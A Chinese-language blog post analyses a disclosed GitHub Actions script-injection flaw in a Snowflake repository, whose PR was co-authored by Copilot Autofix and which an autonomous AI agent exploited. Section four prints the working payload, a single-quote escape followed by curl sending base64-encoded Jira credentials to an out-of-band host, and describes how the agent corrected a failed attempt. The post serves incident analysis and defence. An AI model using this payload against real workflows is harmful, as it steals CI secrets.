

2026 年 8 月 17 日，Wiz Research 公开了一项针对 Snowflake 的安全研究：他们的自主 AI 安全工具「Red Agent」发现并利用了一个 **GitHub Actions 脚本注入漏洞**，在无人工干预的情况下拿到了 Snowflake 内部 Jira（snowflakecomputing.atlassian.net）的只读访问权限——覆盖工程、安全合规、漏洞赏金项目的数据。漏洞从上线到被攻破只有 **5 天**，而引入漏洞的 PR 的 co-author 是 **"Copilot Autofix powered by AI"**。

对做 AI 工程的人来说，这是一次教科书级的「反噬」案例：AI 写代码的能力正在快速商品化，但 **AI 生成代码的安全治理才刚刚开始**。这篇文章把整个事件拆开：漏洞怎么来的、为什么做了 sed 转义还是被注入、Red Agent 如何从执行报错里自我纠错完成利用、以及工程上到底该加哪些护栏。

{/* truncate */}

## 一、时间线：五天从上线到沦陷

| 时间 | 事件 |
|------|------|
| 2026-06-18 | PR #1218（"SNOW-2069227: Update jira workflows"）合入 `snowflakedb/snowflake-connector-net`，co-author 为 Copilot Autofix |
| 2026-06-23 | Wiz Red Agent 发现漏洞、完成利用验证、通过 HackerOne 上报（报告 #3819931） |
| 2026-06-23（当天） | Snowflake 合入修复（PR #1402，commit 1dc7766），恢复安全模式 |
| 2026-06-24 | Jira token 轮换 |
| 2026-08-17 | Wiz 公开披露（30 天披露期后） |

两个关键事实：漏洞存活 5 天就被**自动化工具**发现并完成端到端利用（从探测到外带凭证）；Snowflake 当天修复、次日轮换凭证，审计日志确认暴露窗口内只有 Wiz 一个访问者。放在传统漏洞发现周期（平均数十天）里看，这个速度是降维打击。

## 二、根因：AI "autofix" 把安全模式改回了裸插值

被攻击的 workflow 是 `jira_issue.yml`，触发条件是 `issues: opened`——**任何 GitHub 用户开一个 issue 就能触发**。原有代码是 GitHub 官方推荐的安全模式：把不可信输入放进 `env:` 变量，再用 jq 结构化拼 JSON：

```yaml
- env:
    ISSUE_TITLE: ${{ github.event.issue.title }}
- run: jq -n --arg title "$ISSUE_TITLE" ...
```

PR #1218 把它换成了直接字符串插值：

```yaml
- run: |
    TITLE=$(echo '${{ github.event.issue.title }}' | sed 's/"/\\"/g' | sed "s/'/\\'/g")
```

这是教科书里写烂了的反模式：**把 `${{ }}` 表达式直接拼进 `run:` 的 shell 脚本**。GitHub 模板展开发生在 shell 执行之前，模板展开后的内容对攻击者完全可控。作者显然知道要转义（写了两个 sed），但转义逻辑本身跑在模板展开之后——攻击者根本不需要绕过 sed，一个单引号就能逃出 `echo '...'` 的单引号上下文。

更值得警惕的是：这次变更**删掉了一个正确的安全模式**。AI 助手没有"这个 `env:` + `jq --arg` 模式是当年为了防注入专门写的"的历史上下文，按概率分布"改进"了代码，结果就是安全回归。而 GitHub 的 AI 辅助评审（Copilot 作为 co-author 检查过这个 PR 并判定 all-clear）也没有发现问题——注意，Wiz 在 8 月 17 日的更新里澄清：代码本身是否由 AI 生成并不确定，但 **AI 评审确实放行了一个高危漏洞**。

## 三、"安全门"为什么是假的

Workflow 里有一个看起来有防护的 if 条件：

```yaml
if: (github.event_name == 'issues' && github.event.pull_request.user.login != 'whitesource-for-github-com[bot]')
```

意图显然是"只放行指定 bot"。但 `issues` 事件里 `github.event.pull_request` **永远是 null**，所以条件等价于 `null != 'whitesource...'`——恒为 true，任何匿名用户都能触发。这类"跨事件类型复用表达式"的 bug 在 GitHub Actions 里非常常见（`github.event.pull_request` 只在 `pull_request` 事件里存在），值得写成静态检查规则直接禁掉。

## 四、利用：单引号逃逸 + OAST 外带

Wiz Red Agent 构造的 issue title 经过模板展开后长这样：

```bash
' ; curl -s "https://subdomain.oast.me?t=`printf %s $JIRA_API_TOKEN|base64 -w0`&e=`printf %s $JIRA_USER_EMAIL|base64 -w0`&u=`printf %s $JIRA_BASE_URL|base64 -w0`" ; echo '
```

逃出 echo 后执行 curl，把 runner 环境里的 `JIRA_API_TOKEN`、`JIRA_USER_EMAIL`、`JIRA_BASE_URL` base64 编码后外带到攻击者控制的 OAST（Out-of-Band Application Security Testing）域名。几秒内回调到达（Azure IP 20.106.182.197），凭证到手。

一个非常值得注意的细节：Red Agent **第一次尝试失败过**。它先用 `#` 注释掉行尾，结果 bash 报错——`#` 把 `TITLE=$(...` 的右括号也吃掉了，语法不完整。它没有停下来，而是**读取报错、改用 `; echo '` 正确闭合 shell 语法、重试成功**。这就是自主安全 Agent 的典型行为模式：不是一次猜中，而是能从执行反馈里自我纠错迭代。对防御方意味着："攻击者会在几分钟内自动迭代利用脚本"，而不是像人类那样需要花几小时调试。



影响面评估：被外带的 token 以 `qa@snowflake.net` 身份对 snowflakecomputing.atlassian.net 有**只读访问权**，覆盖工程、安全合规、漏洞赏金项目。好在只有读权限、且 5 天内被及时发现并轮换，没有造成数据泄露事故。

## 五、工程启示：AI 代码治理的五条护栏

1. **AI 生成的 PR 不能享受更低标准**。GitHub Actions 官方文档明确警告不要在 `run:` 里直接插值不可信输入；AI 工具按概率生成代码，会把"看起来合理但历史上下文缺失"的改动带进仓库。AI 生成的代码必须走与人类代码完全相同的静态分析 + 安全评审流程（甚至更严）。
2. **把安全模式写进 guardrail，而不是靠记忆**。正确模式（`env:` + `jq --arg`）已经存在于仓库里，却被"优化"掉了。工程上应该用 lint 规则 / 代码扫描器把反模式（`${{ }}` 直接出现在 `run:` 块）在 CI 合入前拦掉，而不是指望 AI 或人类记得历史。对"AI 助手替换结构化解析代码"这类回归，可以加专门的规则：涉及 `${{ }}` 的 diff 强制人工 review。
3. **不要给 workflow 塞长命凭证**。`JIRA_API_TOKEN` 以明文 env 形式躺在 runner 里，一次注入就能整盘外带。GitHub Actions 的敏感凭证应该用 OIDC 短期令牌（云厂商 OIDC 联邦）或至少最小权限 + 定期轮换，避免"一个 token 直通内部系统"。
4. **假设自动化攻击者存在**。5 天发现窗口已经算短，但 Wiz 这种"AI 扫描 → 发现 → 利用 → 上报"全自动链路意味着：漏洞存活时间的单位正在从"周"变成"天/小时"。防御侧同样需要自动化：workflow 扫描、secret 泄露监控、行为基线告警。
5. **AI 代码评审本身需要被评审**。Copilot 作为 co-author 检查过这个 PR 并判定 all-clear，但没发现问题。AI review 是概率性的辅助手段，不能替代人工 review 和强制分支保护（required reviewers、CODEOWNERS、环境保护规则）。

## 六、批判性视角

两点保留：一是 Wiz 是安全厂商，披露本身带有产品营销成分（Red Agent 是他们的产品），攻击链细节只有厂商侧描述，Snowflake 只确认了"已修复、无未授权访问证据"；二是"Copilot Autofix 是 co-author"不等于"代码是 AI 写的"——Wiz 在 8 月 17 日的更新里也澄清了这一点，实际改动来源并未确认。但这不影响核心结论：**AI 参与的开发流程已经能引入并合入高危漏洞，而现有的 AI 评审没有拦住**。这个结论对任何正在把 Copilot/Codex 类工具接进 CI/CD 的团队都成立。

## 相关阅读

- [GLM-5.3 与 Coding Agent 的安全能力：白盒审计、漏洞推理与证据分级](/blog/2026/08/17/glm53-coding-agent-security)
- [Agent 安全防护：ToolGuardian 深度解析](/blog/2026/07/28/agent-security-toolguardian)
- [Agent 工程化生产指南](/blog/2026/07/30/agent-engineering-production-guide)
- [Function Calling 原理与内部机制](/blog/2026/08/11/function-calling-internals)
